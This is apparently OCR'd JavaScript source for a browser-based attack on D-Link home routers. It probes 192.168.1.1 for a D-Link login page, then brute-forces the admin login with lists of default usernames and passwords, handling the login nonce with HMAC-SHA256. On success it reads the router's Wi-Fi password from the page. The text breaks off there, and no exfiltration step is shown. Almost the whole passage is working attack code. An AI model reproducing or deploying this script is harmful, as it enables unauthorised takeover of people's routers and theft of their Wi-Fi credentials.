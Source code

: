 ```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.1.1/ui/login', true);
xhr.setRequestHeader("hydra","true");
xhr.onload = function () {
      if(this.response.includes("D-LINK")){
      	console.log("d-link");
      	dlinkStart();
      }

      };
xhr.responseType = 'text'
xhr.send(null);


// The main function that starts the attack
function dlinkStart(){
	// List of possible usernames
	var usernames = ["administrator","Administrator","admin","Admin"];
	// List of possible passwords
	var passwords = ["password","admin","1234","","pwd"];
	// the array containing usernames and passwords comination
	var combos = [];

	var i = 0;

	// combines all possibile usernames and passwords and put it into combos
	for(var i = 0; i < usernames.length; i++)
	{
	     for(var j = 0; j < passwords.length; j++)
	     {
	        combos.push({"user":usernames[i],"pwd":passwords[j]})
	     }
	}


	function dlinkAttacker(user, passwd) {

	  // first request to get the nonce
	  var xhr = new XMLHttpRequest();
	  xhr.open('GET', 'http://192.168.1.1/ui/login', true);
	  xhr.onload = function () {
	    if (this.readyState == XMLHttpRequest.DONE && this.status == 200) {
					// the current username to test
					var username = user
					// the current password to test
	      var pwd = passwd
					// the nonce extracted from the web page
	        var nonce = xhr.response.form.nonce.value
					// the password encrypted with nonce
	        var encPwd = CryptoJS.HmacSHA256(pwd, nonce)

					// let's try to log in
	        var xhr2 = new XMLHttpRequest();
	        xhr2.open('POST', 'http://192.168.1.1/ui/login', true);

	        //Send the proper header information along with the request
	        xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	        xhr2.onload = function () {
	          if (this.readyState == XMLHttpRequest.DONE && this.status == 200) {
	            try {
								// the comination username\password was corrent, let's get the Wi-Fi password
	              var wlanPsk = xhr2.response.getElementById('wlan-psk').innerHTML
```